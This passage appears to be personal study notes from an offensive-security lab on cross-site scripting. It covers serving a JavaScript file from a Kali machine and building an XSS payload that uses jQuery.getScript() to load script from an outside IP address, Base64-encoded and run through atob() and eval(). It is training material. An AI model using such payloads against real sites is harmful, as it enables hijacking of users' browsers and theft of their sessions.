 While we can do this in "vanilla" JavaScript, using jQuery will save us a decent amount of space and simplify the payload.

As a reminder, our previous payload injected JavaScript as part of the "ref" value in the URL. We'll create a new payload using the `jQuery.getScript()` function to load a JavaScript file from our Kali machine.

First, let's create the JavaScript file to be hosted. We'll create this file in ~/xss. We'll also start python's HTTP server to serve the file on port 80.

creating a simple `JS` file
```bash
kali@kali:~$ mkdir ~/xss/

kali@kali:~$ cd ~/xss/

kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
alert('It worked!')

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Next, let's craft the XSS payload that will load this file. We need to pass the `jQuery.getScript()` function a URL. We've already discovered that a semicolon causes issues with the payload, and ideally, we want to use the least amount of special characters as possible.

We want to encode the whole payload in such a way that it is meaningless while the application server is processing the URL. The ideal encoding scheme would output alphanumeric characters that wouldn't impact the URL (e.g. no forward slashes). Considering these factors, we'll [_Base64-encode_](https://developer.mozilla.org/en-US/docs/Glossary/Base64) the core of the payload and then include the [_atob()_](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/atob) function to decode it.

We can use the Decoder tool in Burp Suite to Base64-encode our `fetch()` call. Let's click on the `Decoder` tab and paste our payload in the text box. Since we will be Base64-encoding for this part of the payload, we'll click we'll click `Encode` as ..._ > `Base64`.

payload
- had to make sure `jQuery` was spelt like that
```js
jQuery.getScript('http://192.168.45.233/xsscinco.js')

```
base64
```js
alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc2NpbmNvLmpzJykK
```
![[Pasted image 20241223155127.png]]

Now that we have our payload Base64-encoded, we need to wrap it in two function calls. First, we'll pass it to `atob()` to decode the value. This will return a string of our payload. We'll pass the string in to `eval()` to execute the string as JavaScript.

